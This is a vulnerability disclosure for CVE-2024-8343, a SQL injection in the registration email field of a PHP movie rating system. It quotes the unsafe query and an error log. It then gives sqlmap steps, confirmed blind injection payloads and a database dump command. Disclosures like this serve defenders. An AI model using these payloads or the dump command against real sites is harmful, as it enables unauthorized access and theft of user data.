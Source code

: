 # SQL Injection vulnerability was discovered in Sourcecodester's Sentiment Based Movie Success Rating Prediction System  (user registration)

Official Website: https://www.sourcecodester.com/php/15104/sentiment-based-movie-rating-system-using-phpoop-free-source-code.html

Version: 1.0
Related Code file: /msrps/classes/Users.php

---
## CVE-2024-8343
```
$chk = $this->conn->query("SELECT * FROM `client_list` where email ='{$email}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
```
The email variable is directly inserted into the SQL query without any escaping or parameterization. An attacker could inject malicious SQL code by manipulating the email field. in (line number 135 of Users.php)

Injection parameter: email


Backend Verification for SQLi
---
```
127.0.0.1:46134 [500]: POST /msrps/classes/Users.php?f=save_client - Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'vunerableparam@mail.com'' at line 1 in /home/kali/Downloads/msrps/classes/Users.php:135                                                                                                                     
Stack trace:                                                                                                                                                
#0 /home/kali/Downloads/msrps/classes/Users.php(135): mysqli->query()                                                                                       
#1 /home/kali/Downloads/msrps/classes/Users.php(261): Users->save_client()                                                                                  
#2 {main}                                                                                                                                                   
  thrown in /home/kali/Downloads/msrps/classes/Users.php on line 135   
  ```
---
Step to Reproduce:
---

1. Go to login page and click on [Create a New Account]

![registeration](https://github.com/gurudattch/CVEs/blob/main/assets/4.png)

---

3. Fill the form and intercept the POST request in burp

![burp-image](https://github.com/gurudattch/CVEs/blob/main/assets/5.png)

---

4. Copy the **POST** request to notepad and save it.

![notepad](https://github.com/gurudattch/CVEs/blob/main/assets/6.png)

---

6. Now Run **sqlmap** on this request 

`sqlmap -r register_req.txt -p email`

```
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 433 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND 4940=4940 AND 'oqjL'='oqjL&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=&firstname=fname&middlename=midname&lastname=lnmae&gender=Male&email=mytest@mail.com' AND (SELECT 7178 FROM (SELECT(SLEEP(5)))MFQU) AND 'aOrZ'='aOrZ&password=password
---

```


__dump database;__

`sqlmap -r register_req.txt -p email --dump`



